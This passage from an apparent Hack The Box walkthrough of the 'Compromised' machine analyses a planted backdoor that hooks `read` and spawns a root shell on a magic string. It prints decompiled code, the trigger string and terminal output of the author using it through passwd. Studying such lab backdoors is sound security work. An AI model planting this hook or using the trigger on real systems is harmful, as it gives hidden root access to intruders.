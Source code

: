         setgid(0);
        setuid(0);
        execve("/bin/sh",(char **)0x0,(char **)0x0);
      }
      return read_ret;
    }
    

So it uses `dlsym` to get the real `read` function, and then calls it with the
parameters passed in. It checks if the result contains the string
“2wkeOU4sjv84ok/”, and if so, it starts a shell. Otherwise, it returns the
actual return value from `read`.

When it calls the shell, it first runs `setgid(0)` and `setuid(0)`, so as long
as the process is running as root, the shell will also be running as root.

### Shell

One SUID binary that takes input (ie, uses `read`) is `passwd`. If I provide
this string as the current password, instead of rejecting it as wrong, it just
returns a root shell:

    
    
    sysadmin@compromised:/var/lib/mysql$ passwd
    Changing password for sysadmin.
    (current) UNIX password: sh: 0: can't access tty; job control turned off
    # reset: unknown terminal type unknown
    Terminal type? screen
    # id
    uid=0(root) gid=0(root) groups=0(root),1000(sysadmin) 
    

Interestingly, if I try to even `echo` that string, it crashes my SSH
connection:

    
    
    root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
    Last login: Mon Jan 18 19:28:09 2021 from 10.10.14.4
    mysql@compromised:~$ echo "2wkeOU4sjv84ok"
    2wkeOU4sjv84ok
    mysql@compromised:~$ echo "2wkeOU4sjv84ok/"
    Connection to 10.10.10.207 closed by remote host.
    Connection to 10.10.10.207 closed.
    

Perhaps trying to run `setuid(0)` as an unprivileged user is causing a crash.

## Beyond Root - Root from Webshell

It turns out that [this trick](https://www.sans.org/blog/sneaky-stealthy-su-
in-web-shells/) works to run `su` from the webshell. The
[TheATeam](https://www.hackthebox.eu/home/teams/profile/1750) got first blood
by using the webshell to find the PAM backdoor, and then executing it from the
webshell like this:
